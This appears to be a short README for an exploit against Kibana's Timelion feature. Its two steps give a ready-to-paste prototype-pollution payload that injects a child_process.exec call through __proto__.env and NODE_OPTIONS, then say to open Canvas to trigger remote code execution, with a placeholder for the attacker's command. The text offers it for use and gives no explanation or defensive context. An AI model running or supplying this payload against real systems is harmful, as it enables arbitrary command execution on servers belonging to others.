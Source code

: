 # Quickread

**To exploit and get RCE, follow these steps:**

1. Copy and paste this code in Timelion:
	```
	.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("YOUR CMD HERE");process.exit()//')
	.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
	```
	
2. Open Canvas. This will execute the code.
